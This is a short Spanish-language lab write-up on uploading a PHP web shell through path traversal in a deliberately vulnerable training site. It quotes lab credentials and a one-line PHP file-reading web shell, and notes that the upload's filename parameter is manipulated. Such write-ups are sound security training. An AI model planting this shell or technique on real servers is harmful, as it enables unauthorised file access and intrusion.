 # 02 Lab: Web shell upload via path traversal

# Objetivo

> This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
> 
> 
> To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> 
> You can log in to your own account using the following credentials: `wiener:peter`
> 

## Solución

Creamos un archivo en .php que contenga un exploit de lectura y lo subimos. 

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Intentamos modificar el parámetro filename al momento de subir el archivo.

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image.png)

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image%201.png)

Accedemos a la web del usuario y vemos que se carga la “foto” que hemos subido.

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image%202.png)

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image%203.png)

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image%204.png)

![image.png](02%20Lab%20Web%20shell%20upload%20via%20path%20traversal%2017efab5460ec801980d1fa9a1e9e0b67/image%205.png)